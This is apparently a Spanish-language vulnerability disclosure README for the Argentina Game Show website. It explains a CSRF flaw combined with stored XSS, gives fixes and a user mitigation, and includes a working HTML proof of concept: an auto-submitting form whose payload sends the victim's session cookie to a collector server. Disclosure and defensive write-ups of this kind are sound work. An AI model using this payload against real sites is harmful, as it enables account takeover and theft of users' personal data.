 # AGS-CSRF-XSS POC

La pagina de la AGS es vulnerable a CSRF y XSS, haciendo que un atacante pueda conseguir acceso total a la cuenta de alguien convenciendolo de que abra un link malicioso. La info que puede conseguir es la siguiente: nombre completo, email, fecha de nacimiento, dni, entradas al evento y hash MD5 de la contraseña que se puede llegar a crackear.

## Tabla de contenidos
- [Tabla de contenidos](#tabla-de-contenidos)
- [Vulnerabilidad](#vulnerabilidad)
- [Fix](#fix)
- [Mitigacion](#mitigacion)
- [POC](#poc)

## Vulnerabilidad
El form para cambiar la información del usuario (/mis-datos) no tiene protección contra CSRF, la cookie PHPSSESSID tiene el flag `SameSite` en `None` por lo que se agrega automaticamente al hacer el submit sin hacer ningun chequeo del origen.

Uno puede desde otra pagina web, hacer un form con los datos que quiere cambiar y hacer que se envíe solo, el usuario no se dará cuenta que está cambiando su información. Al hacer el cambio, el usuario es redirigido a una pagina donde se muestran los nuevos datos.

El servidor no sanitiza correctamente los datos que se le envian, y la forma en la los muestra es vulnerable a XSS, se puede inyectar codigo en cualquiera de los campos. (filtra algunos caracteres pero no de forma correcta)

Este es el codigo que se puede usar para explotarlo:

```html
<body>
    <form name="myForm" id="myForm" method="POST" style="display: none;" action="https://app.argentinagameshow.com/ajax/table_edit.php?notab=1&tid=22&ftid=&rid=&sdb=0&id=&tab=undefined">
        <!-- redirige a nuestro servidor con las cookies en la url -->
        <input type="text" name="22_98" value="<img src='' onerror=window.location.href=`http://localhost:8888/info?${document.cookie}`>">
        <input type="text" name="action" value="edit">
        <input type="submit" value="Submit">
    </form>

    <script>
        document.getElementById("myForm").submit();
    </script>
</body>
```

## Fix
Hay dos formas de solucionar este problema, la primera es agregar un token CSRF al form que esté linkeado con la sesion o el usuario, y verificar que el token sea correcto del lado del servidor antes de hacer el cambio. 

La segunda es agregar el flag `SameSite` a la cookie PHPSSESSID, y ponerlo en `Lax` o `Strict`, esto hará que el navegador no envie la cookie al servidor si el origen no es el mismo que el del servidor.

Este post de [Porswigger](https://portswigger.net/web-security/csrf/preventing) explica mas en detalle como solucionar problemas relaciondos a CSRF, que ventajas y desventajas tiene cada una de las soluciones.

## Mitigación
Mientras los de AGS no arreglen este problema, forma de mitigar este problema que tenemos por ahora es cerrar sesion en la pagina de la AGS y usar unicamente la APP de telefono. La app corre en un navegador propio y los demas navegadores no tienen acceso a sus cookies. **Y no hacer click en links que no sean de confianza.**

## POC
Este repo tiene incluido un POC, para correrlo tienen que tener instalado node y typescript. instalan las dependencias con `npm i` y lo ejecutan con `npm run dev`. Cuando entren a `http://localhost:8888` se va a redirigir un par de veces y les va a mostrar info de su cuenta.

